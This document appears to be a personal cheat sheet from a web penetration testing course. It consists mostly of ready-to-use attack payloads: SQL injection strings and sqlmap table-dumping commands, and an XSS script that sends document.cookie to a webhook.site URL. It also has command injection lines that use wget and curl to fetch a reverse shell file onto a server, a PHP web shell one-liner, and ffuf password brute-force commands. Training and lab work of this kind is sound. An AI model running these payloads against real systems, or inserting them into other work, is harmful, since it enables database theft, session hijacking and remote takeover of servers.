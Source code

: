 - Recon scripts
	- sumrecon: [https://github.com/thatonetester/sumrecon](https://github.com/thatonetester/sumrecon)
	- TCM's modified script - [https://pastebin.com/MhE6zXVt](https://pastebin.com/MhE6zXVt)
- [Payload for All Things](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [appsec gitbook](https://appsecexplained.gitbook.io/appsecexplained)
- 

##  SQL Injection
###### SQL Injection - UNION
- `jeremy' or 1=1-- -` or `jeremy' or 1=1#`
- `jeremy' union select null,null,null#` -- to output number of columns
- `jeremy' union select null,null,version()#` -- to output version
- `jeremy' union select null,null,table_name from information_schema.tables#` -- to output all of the tables that exists in database
- `jeremy' union select null,null,column_name from information_schema.columns#`-- to output all of the columns that exists in database
- `' union select null,TABLE_NAME,null,null,null,null,null from information_schema.tables-- -`
- `' union select null,COLUMN_NAME,null,null,null,null,null from information_schema.columns-- -`
- [cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
###### SQL Injection - Blind 
- Blind SQL (Structured Query Language) injection is a type of SQL Injection attack that asks the database true or false questions and determines the answer based on the applications response.
- Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors. [refer](https://portswigger.net/web-security/sql-injection/blind)
- Open burp -> send the POST request to repeater 
- Copy the whole request and paste it in req.txt
- `sqlmap -r req.txt`
- If we can change the session cookie and response doesn't change that means we have SQL Injection 
	- In our lab `Cookie: session=6967cabefd763ac1a1a88e11159957db' and 1=1#`
- Now we will be using substring (SUBSTRING(_string_, _start_, _length_))
	- `Cookie: session=6967cabefd763ac1a1a88e11159957db' and substring('alex',1,3) ='ale'#` -- to check for password match 
	- `Cookie: session=6967cabefd763ac1a1a88e11159957db' and substring((select version()),1,1) ='8'#`  or  `Cookie: session=6967cabefd763ac1a1a88e11159957db' and substring((select version()),1,5) ='8.0.3'#` -- to check the version of database
- Copy the whole GET request and paste it in req2.txt
- `sqlmap -r req2.txt --level=2` -- this will check for cookie
- `sqlmap -r req.txt --level 5 --risk 3 -p param[]` -- to check SQLI in a param
- `sqlmap -r req2.txt --level=2 --dump` -- this will dump all tables from every databases
- `sqlmap -r req2.txt --level=2 --dump -T injection0x02` -- if you know the table

## XSS
- avoid using `alert(1)` try `print()` or `prompt("Hello")`
- `<img src=x onerror="prompt(1)">`
- `<img src=x onerror="window.location.href='https://google.com'">`
- Always test for HTL injection first
- To steal the cookie
	- visit `webhook.site` and click on Unique URL
	- `<script>var i=new Image;i.src="https://webhook.site/112d88a1-28ab-42b9-9864-a6b2ae8750e0/?"+document.cookie;</script>`

##   Command Injection
- `;whoami; echo`
- check for php, python or bash and try different reverse shell payload
- `https://tcm-sec.com \n wget 10.0.2.8:8080/test` 
- We can use webhook.site 
	- ` https://webhook.site/112d88a1-28ab-42b9-9864-a6b2ae8750e0?`whoami` `
- we can pop reverse shell by uploading rev.php
	- `https://tcm-sec.com \n wget 10.0.2.8:8080/rev.php`
	- `https://tcm-sec.com && curl 10.0.2.8:8080/rev.php > /var/www/html/rev.php`
- `500' ;whoami;#` -- always try ;whoami;

## Insecure File Upload
- Always check if the sanity is done only on client side or it is done on server side as well (use burp repeater for invetigation)
- `ffuf -w /usr/share/wordlists/dirb/common.txt  -u http://localhost/FUZZ`
- `<?php system($_GET['cmd']); ?>`
- always check for other extension such as php5, php4, phtml


## Attacking Authentication
- Brute Force
	- Use Burp to attack and moniter by length filter
- ffuf
	- copy the request from burp and paste it in req.txt
	- change password to FUZZ
	- `ffuf -request req.txt -request-proto http -w /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt -fs 1814`  --  -fs to filter file size
- `ffuf -request teashop.txt -request-proto http -mode clusterbomb -w pass.txt:FUZZPASS -w /usr/share/seclists/Usernames/top-usernames-shortlist.txt:FUZZUSER -fs 3376,3256` same as ffuf attack used above only difference we have FUZZUSEr and FUZZPASS 

## Capstone
- Enum
	- `ffuf -w /usr/share/wordlists/dirb/common.txt -'http://localhost/capstone/FUZZ' -e .php -recursio`
- Sign In/ Sing UP -- check for weak password register